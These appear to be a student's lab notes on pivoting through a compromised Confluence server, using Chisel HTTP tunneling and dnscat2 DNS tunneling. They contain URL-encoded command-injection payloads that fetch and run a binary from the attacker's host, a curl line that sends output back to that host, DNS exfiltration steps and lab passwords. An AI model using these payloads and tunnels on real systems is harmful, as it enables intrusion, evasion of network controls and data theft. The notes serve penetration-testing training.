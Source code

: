 HTTP Tunneling Theory and Practice

HTTP Tunneling Fundamenta;s

Scenario:
CONFLUENCE01 compromised again, can exe command via http requests

aDPI solution is now terminating all outbound traffic except HTTP, inbound ports are blocked except TCP/8090, there's no reverse shell as it's not HTTP, no SSH for the same reason

HTTP Tunneling with Chisel

Chisel is a HTTP tunneling tool that encapsulates data stream within HTTP, it also uses SSH so the HTTP wrapper is safe

Chisel uses client/server, server must be set up

reverse port forwarding is particularly useful which is like ssh remote port forwarding

plan is to run Chisel server on Kali, which will be connected to via CONFLUENCE01 Chisel client

Chisel bind a SOCKS proxy port on kali, it will encapsulate all packets through SOCKS port and push it through the HTTP tunnel

before starting the server we need to copy Chisel client to CONFLUENCE01, server and client are same binary, inied with server or client as first argument

sudo cp $(which chisel) .
to copy chisel to home/kali

wget <myip>/chisel -O /tmp/chisel && chmod +x /tmp/chisel
download command on target server

curl http://<targetip>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20<myip>/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
fully constructed curl command for this senario

chisel server --port 8080 --reverse
on kali starting the server

/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
we're going to run this on the target
R: reverse tunnel using socks proxy (1080 by default)
>/dev/null 2>&1 &
force to run in background, so injection doesn't hang

curl http://<targetip>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20<myip>:8080%20R:socks%27%29.start%28%29%22%29%7D/
constructed command

if there is something wrong with the Chisel client process:

/tmp/chisel client <myip>:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://<myip>:8080/
this redirects stdout and stderr to a file and send the content over HTTP back to kali
&> directs all streams to stdout and write to /tmp/output
curl with --data it will read the file at /tmp/output and POST it back to kali

curl http://<targetip>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20<myip>:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://<myip>:8080/%27%29.start%28%29%22%29%7D/

this way to can check for attempted connection via the python3 log

Suppose versoin incompatibility

chisel -h
to check version

note that: error may appear wheen binaries compiled with go version 1.20<  are run on os that don't have glibc that's compatible

wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
this is a version compiled on go 1.19

gunzip chisel_1.8.1_linux_amd64.gz
to unpack

and serve the older version, and implement

ss -ntplu
to check for connection

SSH doesn't offer generic SOCKS proxy command-line option, it offers the ProxyComand config option

ProxyCommand accepts shell command this is used to open proxy enabled channel, but kali native netcat doesn't support proxying

we use ncat
sudo apt install ncat

ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@<targetip db>
so we now pass ncat to proxycommand, it uses socks5 protocol
proxy socket is at 127.0.0.1:1080 since it's 1080 by default
%h %p represent ssh command host and port value

remeber to change /etc/proxychains config to 1080 to use with chisel


DNS Tunneling Theory and Practice

DNS Tunneling Fundamentals

IP address are non human readable IPv4 && v6, so we need to query a DNS server to resolve to IPv4 of www.examplename.com

DNS recursive resolve server for a DNS address record A record

A record is a data type that contains IPv4 address

The recursive resilver does most of the work, it makes DNS queries until it satisfies the DNS request

once request is recived, the recursive resolver queries root name servers, sends DNS query to one of the root name server, .com suffix will corespond to root name server responding with address of a DNS name server that's responsible for .com top-level domain:
a TLD name server

recursive resolver queries .com TLD name server for DNS server that's for examplpe.com, TLD name server responds with authoritative name server for the domain

recurisve resolver asks example.com authoritative name server for IPv4 for www.example.com and ans reply

recursive resolver returns IPv4 to user via UDP/53

suppose MULTISERVER03 is DNS, a bew server FELINEAUTHORITY, on the WAN


FELINEAUTHORITY -> ans feline.corp
username kali and the password 7he_C4t_c0ntro11er

note that in the real world, registration of said server ans needed to be done manuelly for DNS tunneling or social engineering needs

to make FA a functional DNS server:
Dnsmasq

for FA case only:
cd dns_tunneling
cat dnsmasq.conf
to view configration of dns server

sudo dnsmasq -C dnsmasq.conf -d
starting dnsmasq with -C for config file
-d for no daemon so it runs in the foreground to allow for easy kill

in another shell on FA, set up tcpdump on ens192 interface to pickup DNS traffic

sudo tcpdump -i ens192 udp port 53

now to the DB shell->DNS queries aimed at feline.corp

to confirm DB DNS setting
resolvectl status

nslookup exfiltrated-data.feline.corp
test to see if DNS requests can make it out of DMZ
note that NDOMAIN is expected if DNS server isn't configed to sever records

note that DNS records has escaped DMZ, and it shows that information can be exfiltrated from the DMZ

mechism would be [hex-string].feline.corp and repeat until binary is exfiltrated

Infiltration

TXT record can be used: contains arbitrary string information

cat dnsmasq_txt.conf
sudo dnsmasq -C dnsmasq_txt.conf -d
for TXT info demo

to tunnel out at db
nslookup -type=txt www.feline.corp


DNS Tunneling with dnscat2

dnscat2 to exfiltrate data with dns subdomain queries and infiltrate data with txt

1. start inspecting traffic from FA with tcpdump
sudo tcpdump -i ens192 udp port 53

2. start dnscat2
dnscat2-server feline.corp

3. dnscat2 client dinary from dnscat folder at the database_admin
cd dnscat/
./dnscat feline.corp

4. list all active windows with
windows
windows -i 1
(shell) 
--help

listen operates like ssh -L

hence:
listen 127.0.0.1:4455 172.16.2.11:445 (ssh -L local FA)

so on the FA server we can list all smb shares
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234